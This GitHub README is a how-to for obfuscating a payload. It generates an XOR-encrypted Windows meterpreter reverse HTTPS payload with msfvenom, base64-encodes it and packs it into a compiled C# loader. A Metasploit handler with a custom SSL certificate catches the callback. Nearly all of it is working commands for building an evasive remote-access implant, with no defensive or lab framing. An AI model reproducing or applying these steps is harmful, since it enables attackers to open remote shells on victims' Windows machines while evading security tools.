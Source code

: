 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<OurIPADRESS> LPORT=443 --encrypt xor --encrypt-key <helloworld> --format raw > testf
```  
<helloworld> are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' <testf>
```  

### Convert data to Base64  
```sh
base64 <testf> > <newtest>
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal  
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o <nameofproject>
cd <nameofproject>
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.  
![image](https://user-images.githubusercontent.com/88449481/162997528-3483d787-4104-4ff4-b5b5-f0b256f523bb.png)  
![image](https://user-images.githubusercontent.com/88449481/162997827-685cb1b2-8350-4cc8-bdaf-79deadbf74a6.png)

#### don't forget the c# extension  

```sh
dotnet build
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert </home/PATH/TO/THE/example.pem> (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST <ourIPADRESS>  
set LPORT 443  
exploit
```  
